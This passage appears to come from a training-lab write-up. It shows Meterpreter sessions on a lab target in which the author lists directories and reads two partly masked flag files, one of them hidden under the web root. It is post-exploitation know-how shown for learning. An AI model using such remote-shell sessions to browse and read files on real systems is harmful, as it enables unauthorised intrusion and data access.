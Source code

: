 ```bash
meterpreter > cd /
meterpreter > dir
Listing: /
==========

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100755/rwxr-xr-x  0     fil   2025-04-25 11:03:32 +0530  .dockerenv
040755/rwxr-xr-x  4096  dir   2019-12-17 20:31:30 +0530  bin
040755/rwxr-xr-x  4096  dir   2014-04-11 03:42:14 +0530  boot
040755/rwxr-xr-x  340   dir   2025-04-25 11:03:32 +0530  dev
040755/rwxr-xr-x  4096  dir   2025-04-25 11:03:32 +0530  etc
100644/rw-r--r--  39    fil   2025-04-25 11:03:33 +0530  flag.txt
040755/rwxr-xr-x  4096  dir   2014-04-11 03:42:14 +0530  home
040755/rwxr-xr-x  4096  dir   2021-12-27 11:48:46 +0530  lib
040755/rwxr-xr-x  4096  dir   2019-12-17 20:30:41 +0530  lib64
040755/rwxr-xr-x  4096  dir   2019-12-17 20:30:03 +0530  media
040755/rwxr-xr-x  4096  dir   2014-04-11 03:42:14 +0530  mnt
040755/rwxr-xr-x  4096  dir   2021-12-28 09:49:42 +0530  opt
040555/r-xr-xr-x  0     dir   2025-04-25 11:03:32 +0530  proc
040700/rwx------  4096  dir   2019-12-17 20:31:28 +0530  root
040755/rwxr-xr-x  4096  dir   2025-04-25 11:03:33 +0530  run
040755/rwxr-xr-x  4096  dir   2021-03-26 04:03:42 +0530  sbin
040755/rwxr-xr-x  4096  dir   2019-12-17 20:30:03 +0530  srv
100755/rwxr-xr-x  36    fil   2021-12-28 09:50:48 +0530  start-apache2.sh
100755/rwxr-xr-x  32    fil   2021-12-28 09:48:47 +0530  startup.sh
040555/r-xr-xr-x  0     dir   2024-10-17 17:52:10 +0530  sys
041777/rwxrwxrwx  4096  dir   2025-04-25 11:30:35 +0530  tmp
040755/rwxr-xr-x  4096  dir   2019-12-17 20:30:03 +0530  usr
040755/rwxr-xr-x  4096  dir   2019-12-17 20:31:28 +0530  var

meterpreter > cat flag.txt 
FLAG1_d2e3db569f4f4459a8554*********
```

---

### Question 2:

In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag on target1.ine.local.

So, let’s move on directory '/opt/apache/htdocs/' there we found the next flag.

```bash
meterpreter > cd  /opt/apache/htdocs/
meterpreter > dir
Listing: /opt/apache/htdocs
===========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  39    fil   2025-04-25 11:03:35 +0530  .flag.txt
100755/rwxr-xr-x  6364  fil   2021-12-28 09:50:48 +0530  browser.cgi
100644/rw-r--r--  517   fil   2021-12-28 09:50:48 +0530  index.html
040755/rwxr-xr-x  4096  dir   2021-12-27 14:24:09 +0530  static

meterpreter > cat .flag.txt 
FLAG2_8680af874fa745b786dea7*********
```

---
